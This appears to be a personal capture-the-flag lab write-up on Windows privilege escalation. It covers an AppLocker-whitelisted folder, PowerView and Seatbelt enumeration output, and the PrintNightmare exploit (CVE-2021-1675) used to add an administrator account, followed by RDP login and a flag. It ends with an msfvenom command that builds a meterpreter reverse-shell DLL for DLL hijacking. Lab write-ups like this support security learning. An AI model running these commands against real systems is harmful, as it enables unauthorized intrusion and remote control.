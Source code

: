 Now we need to escalate and i will go with what we learn in WPE rather than new approaching and see if the Ninja technique that i learnt is successful.

Will check the location where we can run Powerview
[applocker-bypas-checker.ps1](https://github.com/sparcflow/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1)

Whitelist
```
C:\Windows\Tasks
```


So now i was able to run Seatbelt
```
Seatbelt.exe -group=all -full
```
https://github.com/GhostPack/Seatbelt#command-groups


```
Import-Module ./PowerView.ps1
```

```
Get-NetLocalGroup

ComputerName GroupName                           Comment
------------ ---------                           -------
PC-FILESRV01 Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.
PC-FILESRV01 Administrators                      Administrators have complete and unrestricted access to the computer/domain
PC-FILESRV01 Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
PC-FILESRV01 Certificate Service DCOM Access     Members of this group are allowed to connect to Certification Authorities in the enterprise
PC-FILESRV01 Cryptographic Operators             Members are authorized to perform cryptographic operations.
PC-FILESRV01 Device Owners                       Members of this group can change system-wide settings.
PC-FILESRV01 Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.
PC-FILESRV01 Event Log Readers                   Members of this group can read event logs from local machine
PC-FILESRV01 Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
PC-FILESRV01 Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.
PC-FILESRV01 IIS_IUSRS                           Built-in group used by Internet Information Services.
PC-FILESRV01 Network Configuration Operators     Members in this group can have some administrative privileges to manage configuration of networking features
PC-FILESRV01 Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and vi...
PC-FILESRV01 Performance Monitor Users           Members of this group can access performance counter data locally and remotely
PC-FILESRV01 Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers
PC-FILESRV01 Print Operators                     Members can administer printers installed on domain controllers
PC-FILESRV01 RDS Endpoint Servers                Servers in this group run virtual machines and host sessions where users RemoteApp programs and personal virtual desktops run. This grou...
PC-FILESRV01 RDS Management Servers              Servers in this group can perform routine administrative actions on servers running Remote Desktop Services. This group needs to be popu...
PC-FILESRV01 RDS Remote Access Servers           Servers in this group enable users of RemoteApp programs and personal virtual desktops access to these resources. In Internet-facing dep...
PC-FILESRV01 Remote Desktop Users                Members in this group are granted the right to logon remotely
PC-FILESRV01 Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management servic...
PC-FILESRV01 Replicator                          Supports file replication in a domain
PC-FILESRV01 Storage Replica Administrators      Members of this group have complete and unrestricted access to all features of Storage Replica.
PC-FILESRV01 System Managed Accounts Group       Members of this group are managed by the system.
PC-FILESRV01 Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
```




```
PS C:\Windows\Tasks> Get-NetLocalGroupMember


ComputerName : PC-FILESRV01
GroupName    : Administrators
MemberName   : PC-FILESRV01\Administrator
SID          : S-1-5-21-4241685735-4112329853-1893400299-500
IsGroup      : False
IsDomain     : False

ComputerName : PC-FILESRV01
GroupName    : Administrators
MemberName   : HOLOLIVE\Domain Admins
SID          : S-1-5-21-471847105-3603022926-1728018720-512
IsGroup      : True
IsDomain     : True
```



```
PS C:\Windows\Tasks> Get-NetLoggedon


UserName     : watamet
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  : DC-SRV01
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost
```


```
PS C:\Windows\Tasks> Find-LocalAdminAccess
S-SRV01.holo.live
```


```
PS C:\Windows\Tasks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```


![[Pasted image 20240902033528.png]]


Power-View
![[Pasted image 20240903101740.png]]

So upon doing manual enumeration i found Applications folder which is a Obivo a Sus
![[Pasted image 20240903104136.png]]

![[Pasted image 20240903104305.png]]


So it might be vulnerable to print night mare vulnerability.

![[Pasted image 20240904021616.png]]

Mine CVE didn't worked let's try different one
https://github.com/calebstewart/CVE-2021-1675

```
Import-Module .\CVE-2021-1675.ps1
```

```
Invoke-Nightmare -NewUser "Sardarji" -NewPassword "Password123!"
```

![[Pasted image 20240904023402.png]]

And guess what it worked
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.35 /u:'Sardarji' /p:'Password123!'
```

![[Pasted image 20240904024007.png]]

Root access
```
HOLO{ee7e68a69829e56e1d5b4a73e7ffa5f0}
```


Another method is Dll hijacking.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.51.9.13 LPORT=4444 -f dll -o kavremoverENU.dll
```

Still i don't know why the administrator will run this (i.e. scheduled job didn't run so i manually ran through administrator for proof of concept)
![[Pasted image 20240904025943.png]]

So here the concept of KISS applied and Nightmare helped us. Honestly speaking in by wildness dream also i didn't though about but will add this in the Cheatsheet for sure.



